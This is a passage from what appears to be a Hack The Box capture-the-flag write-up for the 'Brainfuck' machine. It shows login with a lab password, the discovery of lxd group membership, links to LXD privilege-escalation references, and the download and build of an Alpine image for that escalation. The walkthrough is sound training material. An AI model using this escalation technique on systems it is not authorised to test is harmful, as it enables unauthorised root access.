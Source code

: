 ```bash
```

And I got the password too.

Now I logged with `orestis : 3poulakia!`

![Untitled](/img/htb-brainfuck/Untitled%2015.png)

## Privilege Escalation

Once I logged in, I checked `id` and It looks like I'm in the group of `lxd`.

```bash
orestis@brainfuck:~$ id
uid=1000(orestis) gid=1000(orestis) groups=1000(orestis),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),121(lpadmin),122(sambashare)
```

Aftere some googling I got these.

> [https://www.exploit-db.com/exploits/46978](https://www.exploit-db.com/exploits/46978)

> [https://www.hackingarticles.in/lxd-privilege-escalation/](https://www.hackingarticles.in/lxd-privilege-escalation/)

Downloaded that to my machine and build that, it gives me a zip file.

```bash
root@kali:~/CTF/HTB/Boxes/Brainfuck# wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
--2020-07-06 18:52:15--  https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.156.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.156.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7498 (7.3K) [text/plain]
Saving to: ‘build-alpine’

build-alpine                    100%[=====================================================>]   7.32K  --.-KB/s    in 0.001s  

2020-07-06 18:52:21 (5.10 MB/s) - ‘build-alpine’ saved [7498/7498]

root@kali:~/CTF/HTB/Boxes/Brainfuck# bash build-alpine
Determining the latest release... v3.12
Using static apk from http://dl-cdn.alpinelinux.org/alpine//v3.12/main/x86_64
Downloading alpine-mirrors-3.5.10-r0.apk
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
Downloading alpine-keys-2.2-r0.apk
.
.
.
.
.
.
Executing busybox-initscripts-3.2-r2.post-install
(15/19) Installing scanelf (1.2.6-r0)
(16/19) Installing musl-utils (1.1.24-r9)
(17/19) Installing libc-utils (0.7.2-r3)
(18/19) Installing alpine-keys (2.2-r0)
(19/19) Installing alpine-base (3.12.0-r0)
Executing busybox-1.31.1-r19.trigger
OK: 8 MiB in 19 packages
```
